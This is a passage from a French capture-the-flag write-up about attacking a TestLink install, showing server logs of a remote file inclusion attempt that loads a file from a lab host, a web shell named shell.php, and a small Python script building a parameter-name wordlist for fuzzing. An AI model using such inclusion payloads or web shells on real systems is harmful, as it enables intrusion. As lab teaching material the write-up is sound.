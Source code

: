 ```plain
[<<][5b8bfee0d8c41144646901][DEFAULT][/testlink/linkto.php][18/Sep/2 15:16:48][18/Sep/2 15:16:48][took 0.070101 secs]
[>>][5b8bffca89aaa533144150][DEFAULT][/testlink/linkto.php][18/Sep/2 15:20:42]
        [18/Sep/2 15:20:42][WARNING][<nosession>][GUI]
                E_WARNING
require_once(): http:// wrapper is disabled in the server configuration by allow_url_include=0 - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 58
        [18/Sep/2 15:20:42][WARNING][<nosession>][GUI]
                E_WARNING
require_once(http://192.168.56.10/RFI.TXT): failed to open stream: no suitable wrapper could be found - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 58
[<<][5b8bffca89aaa533144150][DEFAULT][/testlink/linkto.php][18/Sep/2 15:20:42][18/Sep/2 15:20:42][took 0.070101 secs]
[>>][5b8c019adc1bf960550581][DEFAULT][/testlink/linkto.php][18/Sep/2 15:28:26]
[<<][5b8c019adc1bf960550581][DEFAULT][/testlink/linkto.php][18/Sep/2 15:28:26][18/Sep/2 15:28:26][took 0.060087 secs]
[>>][5b8c01c6ce3d2590535612][DEFAULT][/testlink/linkto.php][18/Sep/2 15:29:10]
        [18/Sep/2 15:29:10][WARNING][<nosession>][GUI]
                E_NOTICE
Undefined variable: POST - in C:\Users\Nelson\AppData\Local\Temp\shell.php - Line 1
        [18/Sep/2 15:29:10][WARNING][<nosession>][GUI]
                E_WARNING
system(): Cannot execute a blank command - in C:\Users\Nelson\AppData\Local\Temp\shell.php - Line 1.
```

Le fichier *userlog1.log* mentionne seulement un utilisateur de *teslink* nommé *dinesh*.  

Maintenant il faut voir que le TestLink installé est dans sa dernière version et qu'il ne semble pas y avoir de vulnérabilités liées. De plus le code de TestLink est sur Github et il n'y a clairement pas de *require\_once()* [à la ligne 56](https://github.com/TestLinkOpenSourceTRMS/testlink-code/blob/testlink_1_9/linkto.php#L56).  

On peut en déduire que du code vulnérable a été inséré pour les besoins du challenge.  

Dans le fichier *userlog0.log* on voit mentionné différents noms de paramètres (*PiperCoinID*, *PiperCoinAuth*, *PiperCoinAvitar*) qui sont par déduction potentiellement vulnérables.  

Après avoir joué un peu à la mano avec ces variables passés au script *linkto.php* sans aboutir à quoi que ce soit, j'ai décidé de créer une wordlist de nom de paramètres suivant le même schéma.  

On peut trouver sur le web des dictionnaires [de noms de paramètres fréquents](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt), il suffit juste de capitaliser le nom et mettre *PiperCoin* au début :  

```python
with open("common_query_parameter_names.txt") as fd:
    with open("converted.txt", "w") as fd_out:
        for line in fd:
            word = "PiperCoin" + line.strip().capitalize()
            print(word, file=fd_out)
```

Il ne reste qu'à utiliser *Patator* pour tester chaque paramètre avec une valeur quelconque :  
